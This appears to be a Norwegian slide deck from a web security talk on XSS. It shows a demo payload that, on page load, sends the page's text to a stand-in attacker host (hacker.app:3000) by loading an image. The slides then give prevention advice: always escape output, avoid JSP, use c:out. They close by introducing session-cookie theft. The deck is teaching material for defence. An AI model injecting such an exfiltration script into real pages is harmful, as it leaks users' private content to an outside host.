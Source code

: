 # Demo

Hent/se alt innhold på siden for en annen bruker:

```js
window.onload = function() {
  new Image().src='http://hacker.app:3000/xss?content='+escape(document.body.innerText);
}
```
---
class: middle

# Lærdom

Privat innhold ble lekket!

## Hvordan forhindre XSS?

Output må _alltid_ escapes!

2. Hvis du kan la være, ikke bruk jsp for å produsere html!!
  - Thymeleaf
  - Mustache
1. Hvis du _må_ bruke jsp, bruk `<c:out>`:
   ```html
   <c:out value="${transaction.comment}"/>
   ```

---
class: middle

# Angrep 2

## Stjele en sesjon

---
class: middle

# Sesjons-cookies

- Sesjoner på web = cookies
- De må ikke kunne stjeles!

---
class: middle

# Angreps-app
